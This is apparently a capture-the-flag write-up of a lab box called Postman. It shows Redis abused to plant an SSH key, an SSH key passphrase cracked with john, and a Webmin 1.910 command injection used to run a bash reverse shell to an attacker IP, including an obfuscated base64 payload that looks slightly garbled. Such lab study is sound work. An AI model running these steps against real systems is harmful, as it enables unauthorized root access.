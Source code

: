 1,Recon
port scan
	22/tcp ssh`OpenSSH 7.6p1 Ubuntu 4ubuntu0.3`
	80/tcp http `Apache httpd 2.4.29`
	6379/tcp redis `Redis key-value store 4.0.9`
	10000/tcp http `MiniServ 1.910 (Webmin httpd)`
Check the services:
port 80: This is a introduction page, and by enumerating the web-content
```
There are only a few useful urls for us.
/css /images /js /upload
```
When we check them, it would redirect to file console:
![](images/Pasted%20image%2020240921090504.png)
But I can not find anything useful for us.

port 6379 redis
```
Redis is an open-source, in-memory data structure store, primarily used as a database, cache, and message broker. It supports various data structures such as strings, hashes, lists, sets, and sorted sets, among others. Redis is known for its high performance and supports operations like automatic persistence, replication, and clustering.
```

We can use `netcat` and `redis-cli` interact with redis.
```
I can interact with Redis just using nc. I can run keys to list the current keys:
nc 10.10.10.160 6379 
keys *
*0

This redis instance has nothing in it. I can add something:
10.10.10.160:6379> keys *
(empty array)
10.10.10.160:6379> incr wither
(integer) 1
10.10.10.160:6379> keys *
1) "wither"
```

port 10000 http:
This service for us, we have known its version `MiniServ 1.910 (Webmin httpd)`
![](images/Pasted%20image%2020240921090918.png)
We need to put this hostname into our hosts file.
Then we get a login page:
![](images/Pasted%20image%2020240921091106.png)

We don't have any credits, so let's come to check the version of the service and find something exploitable.
`Webmin 1.910 - 'Package Updates' Remote Command Execution (Metasploit)` 
From the exploit-db, but it seems need the valid credit.

Strategy for exploit redis
```
Since I can write to redis, I basically have almost arbitrary write on the file system as the user redis is running as by writing the database to a file with the save command. The reason it’s “almost arbitrary” is because I can’t cleanly write a file, but rather, I can write my content with junk on either side. But there are many file-based attacks on Linux that are robust to the extra junk. For example, writing an SSH key. sshd will ignore the junk lines, and process lines that have a public key in the authorized_keys file.

```

I can check the current directory for redis:
```
10.10.10.160:6379> config get dir
1) "dir"
2) "/var/lib/redis"
```

I can make that guess that this is likely the user that runs the redis server’s home directory. I can confirm that by changing the current directory to ./.ssh:
```
10.10.10.160:6379> config set dir ./.ssh
OK
10.10.10.160:6379> config get dir
1) "dir"
2) "/var/lib/redis/.ssh"
```

The fact that that command works indicates that directory exists, and which suggests this is a home directory for this user.
I'll add my `id_rsa.pub` to a file with some extra newlines before and after the key:
```
(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > spaced_key.txt
```

```
Redis is going to write a binary database file into authorized_keys, where sshd is then going to open that file as an ASCII text file and read it line by line, looking for a public key that matches the private key being sent to it. The newlines will help make sure that the public key is on its own line in the file.
```

I can use the -x options in redis-cli which will “read the last argument from STDIN” to cat this file into redis-cli and set it’s value into the database:
```
cat spaced_key.txt | redis-cli -h 10.10.10.160 -x set wither
```

Next I’ll tell redis that the dbname is authorized_keys, and then save:
```
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
```

Now I can get a shell with SSH.

There is only one user `Matt` but we don't have permission to check anything of him.
But I found another one file in `/opt`: `id_rsa.bak` and we can read it directly.

Then of course we need to crack it. :)
```
ssh2john id_rsa > hash

john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa)     
1g 0:00:00:00 DONE (2024-09-21 09:34) 5.263g/s 1299Kp/s 1299Kc/s 1299KC/s comunista..comett
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Then we get the passphrase `computer2008`

Very sad, ssh login failed.
```
ssh -i id_rsa Matt@10.10.10.160      
Enter passphrase for key 'id_rsa': 
Connection closed by 10.10.10.160 port 22
```

Let's try `su Matt` and hope he use the same credit for his account.
(Thanks God !!!!!)

3,shell as root
Firstly I really like check `sudo -l` but very sadly, Matt could not do anything as root.
```
sudo -l
Sorry, user Matt may not run sudo on Postman.
```
Then I would continue check `.bash_history`
```
su root
mv SimpleHTTPPutServer.py /var/www/html/
mkdir server
mv server server/
mv server.py server/
cd server
```
I am very curious about the directory server.
```
SimpleHTTPPutServer.py
# python -m SimpleHTTPPutServer 8080
import SimpleHTTPServer
import BaseHTTPServer

class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_PUT(self):
        print self.headers
        length = int(self.headers["Content-Length"])
        path = self.translate_path(self.path)
        with open(path, "wb") as dst:
            dst.write(self.rfile.read(length))


if __name__ == '__main__':
    SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
```
But I have check the `netstate` and there is no port 8080 service.
```
netstat -ntlp
0.0.0.0:6379 redis
127.0.0.53:53 DNS
0.0.0.0:10000 webmin
0.0.0.0:22 ssh
```
In this place, I only did not check the service of port 10000.
Then use the `Matt:computer2008` credit we finally login in to the `webmin`
![](images/Pasted%20image%2020240921095321.png)
We have get the Webmin version `1.9.10`
We can try to use the previous poc `Webmin 1.910 - Remote Code Execution`
or run the exploit script from msf.

 It’s very common that webmin uses the system’s authentication.
 Matt does not have access to do much:
![](images/Pasted%20image%2020240921101655.png)

CVE-2019-12840 is described on Packet Storm as:
`https://github.com/KentVolt/Webmin-1.910-Exploit.git`
```
An arbitrary command execution vulnerability in Webmin 1.910 and lower versions. Any user authorized to the “Package Updates” module can execute arbitrary commands with root privileges.
```
It turns out that’s the one thing Matt can do!

The package updater is vulnerable to command injection through the u POST parameter. Click on System on the panel to the left, then click on Software Package Updates . Turn on Burp intercept and click on Update Select Packages .
![](images/Pasted%20image%2020240921102623.png)

A request to `/package-updates/update.cgi` should be intercepted, send this to Burp Repeater
and remove all the parameters. Add the following payload to the end of the request:
`u=acl%2Fapt&u=$(whoami)`

This should execute whoami before the apt update command. Once the page returns, scroll to the bottom to look at the output.
![](images/Pasted%20image%2020240921102721.png)
It's seen that the server tried to install a package named root , which was the output of `whoami` Similarly, a bash reverse shell can be executed.

the payload would be 
```
bash -c "bash -i >& /dev/tcp/10.10.16.6/443 0>&1"

In this place, every symbol need to encode with url encode
like '+' %2b,  '=' %3d.

u=acl%2Fapt&u=$(echo${IFS}YmFzaCAtYyAiYmFzaCAtaSA%2bcat JiAvZGV2L3RjcC8xMC4xMC4xNi42LzQ0MyAwPiYxIg%3d%3d|base64${IFS}-d|bash)
```

Of course, we can use the msf

Then we can get the root shell.
![](images/Pasted%20image%2020240921105610.png)
![](images/Pasted%20image%2020240921105518.png)
PS: remember do not write the virtual host name in the `RHOST` position, it would blocking reverse shells.

Then we can get the root shell.
